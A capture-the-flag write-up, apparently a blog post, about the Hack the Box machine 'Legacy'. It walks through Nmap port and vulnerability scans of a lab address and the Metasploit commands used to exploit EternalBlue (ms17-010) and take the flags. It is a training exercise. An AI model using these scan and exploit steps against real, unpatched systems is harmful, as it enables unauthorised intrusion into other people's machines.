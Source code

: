 ```yaml
---
title: Legacy
date: 2021-01-21
excerpt: "'Legacy' is an easy rated box on Hack the Box. We'll be using Nmap's scripting engine to detect a vulnerability and Metasploit to exploit it."
classes: wide
categories: HackTheBox
tags:
  - htb
  - ms17-010
  - eternalblue
  - metasploit
  - nse
---
```


![img](/assets/images/hackthebox/legacy/head.png)

### Port Scanning and General Enumeration (Nmap)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)

My initial all ports scan showed `139`, `445` and `3389` open. So I targeted those in my targets scan.

`nmap -p 139,445,3389 -oN targeted -Pn -T4 -A 10.10.10.4`


![img](/assets/images/hackthebox/legacy/0.png)

Also ran a script scan using the `--script=vuln` switch

`nmap -Pn 10.10.10.4. -p 139,445 --script=vuln`


![img](/assets/images/hackthebox/legacy/1.png)

Interesting...

---

### Access (Metasploit, ms17-010)
* Reading/Resources
  * [Metasploit](https://www.exploit-db.com/docs/english/44040-the-easiest-metasploit-guide-you%E2%80%99ll-ever-read.pdf)
  * [EternalBlue (ms17-010)](https://www.cisecurity.org/wp-content/uploads/2019/01/Security-Primer-EternalBlue.pdf)

Let's follow up on **ms17-010** lead from nmap using **metasploit**.

`msfconsole`
`search ms17-010`


![img](/assets/images/hackthebox/legacy/2.png)

Set your options:

`set rhosts 10.10.10.4`
`set lhost tun0`

Fire!


![img](/assets/images/hackthebox/legacy/3.png)

That was easy. Capture the flags.


![img](/assets/images/hackthebox/legacy/4.png)


![img](/assets/images/hackthebox/legacy/5.png)

